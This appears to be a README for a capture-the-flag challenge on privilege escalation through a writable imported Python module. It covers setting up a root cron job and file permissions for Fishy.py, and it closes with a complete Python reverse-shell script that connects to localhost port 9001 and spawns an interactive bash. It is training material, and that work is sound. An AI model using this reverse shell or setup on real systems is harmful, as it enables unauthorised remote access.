 # EncryptEdge RCSCTF

This repository contains code for the EncryptEdge RCSCTF Challenge No.3

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```